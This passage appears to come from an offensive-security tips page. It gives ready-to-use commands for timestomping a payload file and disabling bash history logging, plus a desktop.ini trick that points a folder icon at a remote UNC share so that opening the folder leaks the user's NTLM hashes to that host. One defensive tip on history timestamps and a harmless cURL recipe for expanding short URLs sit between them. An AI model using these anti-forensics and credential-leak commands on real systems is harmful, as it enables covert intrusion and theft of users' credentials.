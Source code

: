 ```
$ touch -r normal.elf payload.elf
```
## Linux Bash History Stomping:

One-liner:

```
$ export HISTFILE=/dev/null; unset HISTFILESIZE; unset HISTSIZE
```

Defenders can also enable timestamps in ```.bash_history``` using the command: ```export HISTTIMEFORMAT='%F %T '```

## Taking Apart URL Shorteners with cURL:

Ever get a "shortened" url (bit.ly, tinyurl.com or whatever) and stress about "clicking that link"?  Or worse yet, have that "Oh No" moment after you just clicked it? Let's use cURL to avoid this!

```
$ curl -k -v -I <URL> 2>&1 | grep -i "< location" | cut -d " " -f 3
```

Output:

```
$ curl -k -v -I https://bit.ly/3ABvcy5 2>&1 | grep -i "< location" | cut -d " " -f 3
https://isc.sans.edu/
```

## NTLM Leak via Desktop.ini:

The desktop.ini files contain the information of the icons you have applied to the folder. We can abuse this to resolve a network path. Once you open the folder you should get the hashes.

```
mkdir openMe
attrib +s openMe
cd openMe
echo [.ShellClassInfo] > desktop.ini
echo IconResource=\\192.168.0.1\aa >> desktop.ini
attrib +s +h desktop.ini
```
